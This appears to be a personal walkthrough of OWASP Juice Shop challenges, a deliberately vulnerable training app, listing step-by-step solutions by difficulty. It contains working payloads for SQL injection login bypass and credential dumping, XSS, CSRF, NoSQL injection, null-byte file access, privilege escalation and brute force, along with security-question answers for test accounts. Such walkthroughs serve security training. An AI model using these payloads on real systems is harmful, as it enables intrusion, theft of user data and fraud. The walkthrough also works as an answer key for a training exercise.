 # OWASP Juice Shop<br>
## 1 STAR
### Score Board<br>
Firefox > Debugger > Search score > found: /score-board<br><br>
http://localhost:3000/#/score-board<br>

### Bully Chatbot<br>
Menu > Support Chat > Keep spamming coupon <br><br>

### DOM XSS<br>
search bar > <iframe src="javascript:alert(`xss`)"><br><br>

### Bonus Payload<br>
Search bar <br>
```
<iframe width="100%" height="166" scrolling="no" frameborder="no" allow="autoplay" src="https://w.soundcloud.com/player/?url=https%3A//api.soundcloud.com/tracks/771984076&color=%23ff5500&auto_play=true&hide_related=false&show_comments=true&show_user=true&show_reposts=false&show_teaser=true"></iframe>
```
### Confidential Document<br>
http://localhost:3000/ftp > acquisitions.md<br><br>

### Error Handling<br>
Account Login > put ' in email and password fields<br><br>

### Exposed Metrics<br>
http://localhost:3000/metrics<br><br>

### Outdated Allowlist<br>
gospider -v -s http://127.0.0.1:3000/ -o gospider_output<br>
cd gospider_output
cat 127_0_0_1 | grep code-200<br><br>

### Missing Encoding<br>
change # to %23<br>
http://localhost:3000/assets/public/images/uploads/%F0%9F%98%BC-%23zatschi-%23whoneedsfourlegs-1572600969477.jpg<br><br>

### Zero Stars<br>
http://localhost:3000/#/contact<br>
burp proxy > repeater > rating:0<br><br>

### Repetitive Registration<br>
http://localhost:3000/#/register<br>
burp proxy > repeater > passwordRepeat:""<br><br>

## 2 STAR
### Login Admin<br>
http://localhost:3000/#/login<br>
email:admin' or true--<br>
password:'<br><br>

### Admin Section<br>
http://localhost:3000/#/administration<br><br>

### Five-Star Feedback<br>
http://localhost:3000/#/administration<br>
delete button<br>

### Empty User Registration<br>
http://localhost:3000/#/login<br>
burp proxy > repeater > email:"",password:"",passwordRepeat:""<br><br>

### Empty User Registration<br>
email:mc.safesearch@juice-sh.op<br>
password:Mr. N00dles<br>

### Meta Geo Stalking<br>
http://localhost:3000/#/forgot-password<br>
exiftool favorite-hiking-place.png <br>
36°57’31.38″ N 84°20’53.58″ W <br>
burp suite > repeater<br>
email: john@juice-sh.op<br>
secret:Daniel Boone National Forest<br>

### Weird Crypto
hash analyzer > 4b2e6b2618920cb1713bb801cd05401e<br>
http://localhost:3000/#/contact <br>
Comment: md5 > submit <br>

### Visual Geo Stalking
http://localhost:3000/#/forgot-password<br>
http://localhost:3000/assets/public/images/uploads/IMG_4253.jpg<br>
email: emma@juice-sh.op<br>
secret: ITsec<br>

### View Basket
http://localhost:3000/#/basket<br>
burp suite > repeater<br>
GET /rest/basket/X HTTP/1.1 <br>

### Security Policy
localhost:3000/.well-known/security.txt<br>

### Deprecated Interface 
http://localhost:3000/#/complain <br>
sudo apt install npm<br>
sudo npm -g install js-beautify<br>
js-beautify main.js > main1.js<br>
grep pdf main1.js<br>
```
allowedMimeType: ["application/pdf", "application/xml", "text/xml", "application/zip", "application/x-zip-compressed", "multipart/x-zip"],["ng2FileSelect", "", "id", "file", "type", "file", "accept", ".pdf,.zip", "aria-label", "Input area for uploading a single invoice PDF or XML B2B order file or a ZIP archive containing multiple invoices or orders\x3c!----\x3e", 2, "margin-left", "10px", 3, "uploader"]
rename .xml file extension to .zip or .pdf > uoload and submit
burp suite > repeater > remove .zip to .xml extension
Content-Disposition: form-data; name="file"; filename="legal.xml.zip"
```
### Login Admin
http://localhost:3000/#/login<br>
email:admin@juice-sh.op<br>
burp suite > intruder > positions: password > attack type: sniper<br>
payloads > usr/share/wordlist/fern-wifi/common.txt <br>

## 3 STAR
### Upload type
http://localhost:3000/#/complain <br>
rename .txt file extension to .zip or .pdf > uoload and submit<br>
burp suite > repeater > remove .zip to .txt extension<br>
Content-Disposition: form-data; name="file"; filename="legal.txt.zip"<br>

### Admin Registration
http://localhost:3000/#/register<br>
burp suite > proxy <br>
Post response > role:"customer" <br>
Post request > "role":"admin" <br>

### Bjoern's Favorite Pet 
http://localhost:3000/#/forgot-password<br>
email:bjoern@owasp.org <br>
secret: Zaya<br>

### CAPTCHA Bypass 
http://localhost:3000/#/contact <br>
burp suite > proxy > repeater <br>
send x10 <br>

### CSRF
download firefox 96.0 <br>
http://localhost:3000/profile > login into account <br>
http://htmledit.squarefree.com/ <br>
submit form: <br>
```
<form action="http://localhost:3000/profile" method="POST">
  <input name="username" value="CSRF"/>
  <input type="submit"/>
</form>
<script>document.forms[0].submit();</script>
```

### Database schema
http://localhost:3000/#/search?q=<br>
burp suite > proxy > repeater <br>
GET /rest/products/search?q=apple'))union%20select%20sql,2,3,4,5,6,7,8,9%20from%20sqlite_master-- HTTP/1.1<br>

### Upload size

### Manipulate Basket 
Add to basket<br>
burp suite > proxy > repeater <br>
POST /api/BasketItems/ HTTP/1.1 <br>
```
"ProductId":24,
"BasketId":"1",
"quantity":1,
"BasketId":"3"
```

### Reset Jim's Password 
http://localhost:3000/#/forgot-password<br>
email:jim@juice-sh.op<br>
secret: Samuel<br>

###  Forged Review 
add review for item<br>
burp suite > proxy<br>
"author":"emma@juice-sh.op"<br>

### Login Bender
http://localhost:3000/#/login<br>
email: bender@juice-sh.op'--<br>
password: '<br>

### Login Amy
http://localhost:3000/#/login<br>
burp suite > proxy<br>
"email":"amy@juice-sh.op"<br>
"password":"K1f....................."<br>

### GDPR Data Erasure 
burp suite > proxy > repeater <br>
GET /rest/products/search?q=apple'))union%20select%20deletedAt,email,username,4,5,6,7,8,9%20from%20Users-- HTTP/1.1<br>
http://localhost:3000/#/login<br>
email:chris.pike@juice-sh.op'--<br>
password:'<br>

### Deluxe Fraud
http://localhost:3000/#/deluxe-membership<br>
firefox > inspect elements on Pay button<br>
remove disabled="true",mat-button-disabled<br>
burp suite > proxy > repeater <br> 
"paymentMode":"paid" <br>

### Payback time
Add to basket <br>
burp suite > proxy<br>
POST /api/BasketItems/ HTTP/1.1<br>
"ProductId":41,"BasketId":"1","quantity":-999<br>
check out<br>

### Privacy Policy Inspection 
firefox > highlighted glowing text > inspect <br>
span class="hot"<br>
search .hot<br>
http://localhost we may also instruct you to refuse all reasonably necessary responsibility<br>
http://localhost:3000/we/may/also/instruct/you/to/refuse/all/reasonably/necessary/responsibility<br>

### Product tampering
burp suite > repeater<br>
GET /rest/products/search?q=apple'))union%20select%20id,name,description,price,deluxePrice,image,createdAt,updatedAt,deletedAt%20from%20Products-- HTTP/1.1<br>
PUT /api/products/9 HTTP/1.1<br>
Content-Type: application/json<br>
{"description":"<a href=\"https://owasp.slack.com\""}<br>

## 4 STAR

### Easter Egg
### Nested Easter Egg
### Poison Null Byte 
http://localhost:3000/ftp<br>
GET /ftp/eastere.gg%2500.md HTTP/1.1<br>
/gur/qrif/ner/fb/shaal/gurl/uvq/na/rnfgre/rtt/jvguva/gur/rnfgre/rtt<br>
online Caesar ciper: /the/devs/are/so/funny/they/hid/an/easter/egg/within/the/easter/egg<br>

### Forgoteen Sales Backup
http://localhost:3000/ftp<br>
GET /ftp/coupons_2013.md.bak%2500.md HTTP/1.1<br>

### Misplaced Signature File 
http://localhost:3000/ftp<br>
GET /ftp/suspicious_errors.yml%2500.md HTTP/1.1<br>

### Forgotten Developer Backup
http://localhost:3000/ftp<br>
GET /ftp/package.json.bak%2500.md HTTP/1.1<br>

### Leaked Unsafe Product
burp suite > proxy > repeater<br>
GET /rest/products/search?q=apple'))union%20select%20id,name,description,price,deluxePrice,image,createdAt,updatedAt,deletedAt%20from%20Products-- HTTP/1.1<br>
id":11,"name":"Rippertuer Special Juice","description":"Contains a magical collection of the rarest fruits gathered from all around the world, like Cherymoya Annona cherimola, Jabuticaba Myrciaria cauliflora, Bael Aegle marmelos... and others, at an unbelievable price! <br />This item has been made unavailable because of lack of safety standards. (This product is unsafe! We plan to remove it from the stock!)"<br>
https://pastebin.com/90dUgd7s<br>
http://localhost:3000/#/contact<br>
Comment: Hueteroneel Eurogium Edule<br>

### Vulnerable Library
http://localhost:3000/ftp<br>
GET /ftp/package.json.bak%2500.md HTTP/1.1<br>
http://localhost:3000/#/contact<br>
Comment:marsdb ~0.6,grunt ~1.0,express-jwt 0.1.3,js-yaml 3.10,sequelize ~4,sanitize-html 1.4.2,socket.io ~2.0<br>

### Legacy Typosquatting
http://localhost:3000/#/contact<br>
comment: epilogue-js<br>

### NoSQL Manipulation
write review<br>
burp suite > proxy > repeater<br>
PATCH /rest/products/reviews HTTP/1.1<br>
{ "id": { "$ne": -1 }, "message": "NoSQL Injection!" }<br>

### Allowlist Bypass
http://localhost:3000/redirect?to=http://kimminich.de?pwned=https://github.com/bkimminich/juice-shop<br>

### Christmas special
burp suite > proxy > repeater<br>
GET /rest/products/search?q=apple'))union%20select%20id,name,description,price,deluxePrice,image,createdAt,updatedAt,deletedAt%20from%20Products-- HTTP/1.1<br>
POST /api/BasketItems/ HTTP/1.1
{"ProductId":10,"BasketId":"1","quantity":1}


### Ephemeral Accountant
http://localhost:3000/#/login <br>
burp suite > proxy > repeater <br>
{"email":"' UNION SELECT * FROM (SELECT 15 as 'id', '' as 'username', 'acc0unt4nt@juice-sh.op' as 'email', '12345' as 'password', 'accounting' as 'role', '123' as 'deluxeToken', '1.2.3.4' as 'lastLoginIp' , '/assets/public/images/uploads/default.svg' as 'profileImage','' as 'totpSecret', 1 as 'isActive','1999-08-16 14:14:41.644 +00:00' as 'createdAt','1999-08-16 14:33:41.930 +00:00' as 'updatedAt',null as 'deletedAt')--","password":""} <br>

### Expired Coupon
firefox > Debugger<br>
search: discount > WMNSDY2023<br>
bash > timedatectl set-ntp 0 > timedatectl set-time '2019-03-08' <br>

### Login Bjoern
firefox > Debugger > search: oauth <br>
bash > cat main1.js | grep password: <br>
password: btoa(e.email.split("").reverse().join("")),<br>
email: bjoern.kimminich@gmail.com<br>
moc.liamg@hcinimmik.nreojb<br>
bash > echo -n moc.liamg@hcinimmik.nreojb | base64<br>
bW9jLmxpYW1nQGhjaW5pbW1pay5ucmVvamI=<br>
http://localhost:3000/#/login<br>
POST /rest/user/login HTTP/1.1<br>
{"email":"bjoern.kimminich@gmail.com","password":"bW9jLmxpYW1nQGhjaW5pbW1pay5ucmVvamI="}<br>

### Steganography
http://localhost:3000/#/about<br>
firefox > inspect photo <br>
http://localhost:3000/assets/public/images/carousel/5.png<br>
sudo dpkg -i openstego_0.8.6-1_all.deb<br>
openstego > extract data<br>
http://localhost:3000/#/contact<br>
comment > pickle rick<br>

### User Credentials
burp suite > proxy > repeater<br>
GET /rest/products/search?q=apple'))union%20select%20id,username,email,password,5,6,7,8,9%20from%20Users-- HTTP/1.1<br>

### Reset Uvogin Password
http://localhost:3000/#/forgot-password<br>
https://web.archive.org/web/20200403193744/https://twitter.com/uv0gin<br>
email: uvogin@juice-sh.op<br>
secret: Silence of the Lambs<br>

### Reset Bender's Password
http://localhost:3000/#/forgot-password<br>
email:bender@juice-sh.op<br>
secret:Stop'n'Drop<br>

### Access logs
bash > ffuf -w /usr/share/wordlists/dirb/common.txt -u http://localhost:3000/support/FUZZ -fs 1987
http://localhost:3000/support/Logs
























